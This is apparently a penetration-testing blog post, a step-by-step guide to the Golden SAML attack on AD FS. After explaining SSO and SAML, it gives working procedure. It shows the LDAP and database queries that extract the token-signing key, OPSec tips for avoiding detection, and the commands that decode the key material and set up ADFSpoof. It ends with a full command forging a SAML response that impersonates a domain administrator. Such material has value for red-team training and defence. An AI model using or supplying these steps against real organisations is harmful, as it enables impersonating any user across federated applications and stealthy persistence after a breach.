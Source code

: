 ```yaml
---
author: Nodauf
title: Practical guide for Golden SAML
date: 2022-09-01
tags: ["Golden SAML", "ADFS"]
image: ADFSDump-private-key.png
codeLineNumbers: true
#draft: true # Not listed
description: Practical guide step by step to create golden SAML
---
```


## Introduction

According to Microsoft:

> Active Directory Federation Service (AD FS) enables Federated Identity and Access Management by securely sharing digital identity and entitlements rights across security and enterprise boundaries. AD FS extends the ability to use single sign-on functionality that is available within a single security or enterprise boundary to Internet-facing applications to enable customers, partners, and suppliers a streamlined user experience while accessing the web-based applications of an organization.

In a large network with several applications, each one of them can have an authentication process. Instead of having to authenticate on each and avoiding the risk of password reuse, the ADFS provides a **single sign-on** solution. It is also much simpler to manage **one login per user** than as many logins as applications per user.

For a concrete example, the following schema can quickly summarize the workflow of a web app using the ADFS server as an identity provider:

![ADFS authentication flow](saml-authentication-flow.jpg)

1.  A user wants to connect to a web application 
2. The application redirects the user to the ADFS server
3. The user authenticates to the ADFS
4. Once authenticated to the ADFS, the user is redirected to the web application. Additional information is included inside the request (for example user's groups)
5. The user is now authenticated on the application

## SAML

The previous diagram was a high abstraction of an interaction between a web application and an ADFS server.

### What is SAML?

Security Assertion Markup Language (SAML) is an open standard that allows identity providers (IdP) to pass authorization credentials to service providers (SP). What that jargon means is that you can use one set of credentials to log into many different websites. It’s much simpler to manage one login per user than it is to manage separate logins to email, customer relationship management (CRM) software, Active Directory, etc.

SAML stands for _Security Assertion Markup Language_, it's an open standard based on XML. Its primary role is to allow you to access multiple web applications using a single set of credentials. It provides **SSO** and **centralization user management**. The authentication information will be passed between two components: the **Identity Provider** (ADFS) and the **Service Provider** (web application).
{{< notice note >}}
Benefits of SSO are multiple:

- It avoids password reuse between application
- The passwords are stored in only one place
- The user's management (for administrators and the helpdesk) is simplified
- The password policy (length, complexity, MFA, ...) is centralized
{{< /notice >}}

Once the user is authenticated on the **Identity Provider** (ADFS), the user is redirected to the **Service Provider** through a **POST** request to `/SamlResponseServlet`, the XML data is base64 encoded. To prevent any modifications, the data is signed with an asymmetric encryption algorithm (like RSA).

Inside the XML data, the noteworthy fields are:

- In `Subject`, the field `NameID` contains the ID of the user (username or something else depending of the configuration on the SP)

![Field NameID in SAML data ](saml-Subject-NameID.png)

- In `AttributeStatement` additional information can be included. For example, groups, emails,...

The SP will give the proper rights according to the data sent by the SP.

{{< notice tip >}}
If you are still here, you may have understood that if an application relies on the ADFS for the authentication and the ADFS is compromised, then it is possible to craft a custom request to **impersonate anyone** on the web applications that relies on the ADFS.
{{< /notice >}}

## Practical guide
> In this section, I assume you have a session either as an administrator or as the service account running the ADFS service.

### Necessary information

We need two parts:
- The **private key** (PFX with the decryption password) which is only accessible with high privilege accounts. 
- Public information like the `NameID format`, the `NameID` to impersonate, the attributes to add in the SAML response, and the rpi identifier (matching the SP identifier - the field `InResponseTo` in *Subject → SubjectConfirmation → SubjectConfirmationData*) 

[ADFSDump](https://github.com/mandiant/ADFSDump) is a tool written by Mandiant to retrieve the information above. The tool should be run on the ADFS. If you are lazy to compile it, you can download it [here](ADFSDump.exe).
- The private key is stored in the attribute `thumbnailPhoto` of the LDAP. It is retrieved with the query `(&(thumbnailphoto=*)(objectClass=contact)(!(cn=CryptoPolicy)))`.

![ADFSDump.exe private key](ADFSDump-private-key.png)

- For the encrypted pfx, it will connect, by default, to the WID, _Windows Internal Database_, database (through the named pipes pipe `\\.\pipe\microsoft##wid\tsql\query`) and retrieve the pfx with the query: `SELECT ServiceSettingsData from {0}.IdentityServerPolicy.ServiceSettings` .

![ADFSDump.exe pfx](ADFSDump-pfx.png)

- The public information is also stored in the database, _ADFSDump.exe_ get these data with the sql query 
>SELECT SCOPES.ScopeId,SCOPES.Name,SCOPES.WSFederationPassiveEndpoint,SCOPES.Enabled,SCOPES.SignatureAlgorithm,SCOPES.EntityId,SCOPES.EncryptionCertificate,SCOPES.MustEncryptNameId, SCOPES.SamlResponseSignatureType, SCOPES.ParameterInterface, SAML.Binding, SAML.Location,POLICYTEMPLATE.name, POLICYTEMPLATE.PolicyMetadata, POLICYTEMPLATE.InterfaceVersion, SCOPEIDS.IdentityData FROM {0}.IdentityServerPolicy.Scopes SCOPES LEFT OUTER JOIN {0}.IdentityServerPolicy.ScopeAssertionConsumerServices SAML ON SCOPES.ScopeId = SAML.ScopeId LEFT OUTER JOIN {0}.IdentityServerPolicy.PolicyTemplates POLICYTEMPLATE ON SCOPES.PolicyTemplateId = POLICYTEMPLATE.PolicyTemplateId LEFT OUTER JOIN {0}.IdentityServerPolicy.ScopeIdentities SCOPEIDS ON SCOPES.ScopeId = SCOPEIDS.ScopeId

![ADFSDump.exe relying part](ADFSDump-relying-party.png)

![ADFSDump.exe access policy](ADFSDump-access-policy.png)

{{< notice note >}}
**ADFSDump** cannot retrieve the information above if it is not a WID database.
{{< /notice >}}

 {{< notice tip >}}
**OPSec tips:**

 As it is stored on the LDAP, the **private key** can be gotten from another device.

For the **public information**, by default, the WID (Windows Internal Database) database is only accessible from _localhost_. If an SQL Server is being used and it's reachable from another machine, you may be able to get all the information without opening a session and executing a binary on the ADFS. You may also inspect the _SAMLResponse_ to retrieve this information.
{{< /notice >}}

For the next step, we have to save the **pfx** (Encrypted Signing Key) and the **private key** in binary format.
```bash
# For the pfx
echo AAAAAQAAAAAEE[...]Qla6 | base64 -d > EncryptedPfx.bin
# For the private key
echo f7404c7f[...]aabd8b | xxd -r -p > dkmKey.bin 
```

### Crafting the SAMLResponse
[ADFSpoof](https://github.com/mandiant/ADFSpoof) is a tool written in python to generate our golden SAML from the previously collected information. Microsoft took liberties with the RFC :unamused: and uses a custom _cryptography_ library. To have a working environment to run the tool:
```sh
mkdir ADFSpoofTools
cd $_
git clone https://github.com/dmb2168/cryptography.git
git clone https://github.com/mandiant/ADFSpoof.git 
virtualenv3 venvADFSSpoof
source venvADFSSpoof/bin/activate
pip install lxml
pip install signxml
pip uninstall -y cryptography
cd cryptography
pip install -e .
cd ../ADFSpoof
pip install -r requirements.txt
``` 

To impersonate an administrator on the application _www.contoso.com_  where the ADFS is located at adfs.pentest.lab we will use the following command with the data from ADFSDump.
```python
python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin  -s adfs.pentest.lab  saml2 --endpoint https://www.contoso.com/adfs/ls
/SamlResponseServlet --nameidformat urn:oasis:names:tc:SAML:2.0:nameid-format:transient --nameid 'PENTEST\administrator' --rpidentifier Supervision --assertions '<Attribute Name="http://schemas.microsoft.com/ws/2008/06/identity/claims/windowsaccountname"><AttributeValue>PENTEST\administrator</AttributeValue></Attribute>'
```

The request 5 in the authentication flow at the beginning of the post has to be intercepted (or crafted) to paste the output generated by ADFSpoof.
